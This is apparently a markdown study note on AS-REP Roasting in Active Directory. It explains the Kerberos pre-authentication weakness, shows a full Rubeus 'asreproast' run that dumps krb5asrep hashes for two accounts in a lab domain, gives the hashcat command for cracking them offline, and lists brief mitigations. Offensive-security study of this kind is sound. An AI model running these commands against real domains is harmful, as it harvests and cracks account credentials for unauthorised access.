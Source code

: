 # AS-REP Roasting w/ Rubeus
- AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled
- `pre-authentication disabled` or `do not require Kerberos preauthentication`

![Alt text](<../../Images/AS-REP Roasting.png>)

## AS-REP Roasting Overview
- During pre-authentication, the users hash will be used to encrypt a timestamp that the DC will attempt to decrypt to validate that the right hash is being used
- After validating the timestamp, the KDC will then issue a TGT for user
- If `pre-authentication` is disabled, you can request any authentication data for any user
- KDC will return an encrypted TGT that can be cracked offline
- KDC skips the step of validating that the user is validated (say who they say they are)

<pre>controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _                       
  (_____ \      | |                      
   _____) )_   _| |__  _____ _   _  ___  
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::8422:23f8:a610:8a98%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:37C263DF50A998726A1781DD74E796EA$0D29632069B3
      EA626EE0BD352E1AAABABDAC07334819CA8D466CF0D593AAD15681509532189B919314F95923DAE9
      450D0C7B96EE6C0DE9023DD82488924CA1A99BAE17EA7707134BC1A3CD084479F1B76D02E60855D9
      E9CAEACBC77691A906A80712F158BD71A3295E7739A99BFE4E3DD0360C39C10BD928D0DD0F0267F5
      A078C1839F64C0FEF5B35CF1036CBA7C7C83D7587B71CEABCC96E03B2E8A07631CA5CD26DAD65AD7
      5E8EE81A25BA25F841C53812E6307963DE716664B84E1493E1311A3951700DEC2C4F019B9B27F93E
      276F16BFFDA6FEF14BDBB3446250285846A06FDD9D0AB51AB5396FA98ED23A90FF3A0CE5FC01

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::8422:23f8:a610:8a98%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:997665FED2113BAB00EDFF29BF674DA5$42037DA28E43B
      D332CC243A288422C53E4D794569635BB74FC489EE9B541318F848F497089DF462A5475E44D8721C
      0B688A056D09FF324906C32460AC0CC7FEF4748F6E0224CA0D29896239FDC8089E6643C7DA351FF0
      7334867D0C06CEC093F17879A3C29912F9DA76CA8C8604FD856DCA0C050C902976CE44155B7C1857
      4B9AB3C798E359245631D7B92EA9B30E22D92A1699EE140F6319C93678FF8EF5106644FD712563AF
      8830C1C425FEA7A5B5E3D0B0E8EDFBF81ADD4B7525177B0AF2FE8EED61197986127A565CD9582FC1
      9356B6BE6C01962596F47DE5220D70684400311A8F2C4E41654782563A5276DAB4B6F6097E4</pre>

## Crack the hash using Hashcat
- Insert 23$ after $krb5asrep$

<pre>hashcat -m 18200 hash.txt passwordlist.txt</pre>

## AS-REP Roasting Mitigations
- Have a strong password policy
- Don't turn off Kerberos pre-authentication unless necessary